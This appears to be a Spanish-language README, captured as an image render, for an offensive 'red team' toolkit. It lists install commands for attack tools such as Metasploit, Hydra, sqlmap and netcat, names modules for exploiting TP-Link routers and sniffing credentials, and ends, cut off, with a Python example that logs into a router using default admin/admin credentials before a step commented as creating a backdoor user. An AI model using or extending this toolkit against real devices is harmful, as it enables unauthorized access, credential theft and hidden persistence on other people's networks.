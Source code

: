 ## 🚀 **INSTALACIÓN Y USO**

### **Instalación Completa**
```bash
# 1. Instalar todas las dependencias
python3 install_complete.py

# 2. Verificar instalación
python3 test_installation.py

# 3. Ejecutar herramienta
python3 run_advanced_red_team.py
```

### **Instalación Manual**
```bash
# Dependencias Python
pip install -r requirements.txt

# Herramientas del sistema (Ubuntu/Debian)
sudo apt update && sudo apt install nmap masscan zmap metasploit-framework john hashcat hydra medusa nikto dirb gobuster wfuzz sqlmap burpsuite wireshark tcpdump netcat socat sshpass ffmpeg

# Configurar Metasploit
sudo msfdb init
sudo msfupdate
```

## 📋 **ARCHIVOS PRINCIPALES**

### **Scripts Principales**
- `simplifywfb.py` - Script principal (CORREGIDO y con funcionalidades reales)
- `config.json` - Configuración avanzada
- `run_advanced_red_team.py` - Ejecutor con verificación de dependencias

### **Módulos de Funcionalidades Reales**
- `tplink_exploiter.py` - Explotador específico de TP-Link
- `credential_sniffer.py` - Sniffer real de credenciales
- `network_analyzer.py` - Analizador real de red

### **Scripts de Instalación**
- `requirements.txt` - Dependencias Python
- `dependency_checker.py` - Verificador de dependencias
- `install_complete.py` - Instalador completo
- `test_installation.py` - Prueba de instalación

## 🎯 **EJEMPLOS DE USO REAL**

### **1. Explotación de TP-Link**
```python
from tplink_exploiter import TPLinkExploiter

# Crear explotador
exploiter = TPLinkExploiter()

# Detectar dispositivo
device_info = exploiter.detect_tplink_device("192.168.1.1", 80)

# Login
if exploiter.login_tplink("192.168.1.1", 80, "admin", "admin"):
    # Crear usuario backdoor
```